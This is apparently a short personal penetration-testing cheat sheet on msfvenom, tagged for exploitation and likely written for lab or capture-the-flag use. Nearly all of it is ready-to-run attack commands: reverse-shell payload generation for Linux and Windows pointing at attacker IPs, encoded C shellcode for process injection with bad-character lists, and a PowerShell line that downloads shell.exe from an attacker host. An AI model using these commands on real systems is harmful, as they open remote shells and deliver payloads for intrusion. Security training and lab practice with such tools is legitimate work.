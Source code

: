 ```yaml
---
tags:
  - tool
  - exploitation
---
```

# msfvenom

Generate and encode payloads

## Capabilities

```bash
# Binaries
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.14.191 lport=9001 -f elf -o shell
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.191 lport=9001 -f exe -o shell.exe

# Windows C code
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.18 lport=9001 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `EXITFUNC=thread` is useful when injecting into a process as without it, closing the shell would end the injected process

Download a file in powershell with the command

```powershell
iwr -U "http://10.10.14.191/shell.exe" -O "shell.exe"
```

If not popping a shell, try increasingly strict character blacklists

```
'\x00\x0a\x0d'
'\x00\x0a\x0d\x25\x26\x2b\x3d'
```

Note: `shell_reverse_tcp` is not staged, whereas `shell/reverse_tcp` is.

A staged payload is sent in 2 parts, where the majority of the data is sent in the 2nd part, whereas non-staged payloads are sent all at once

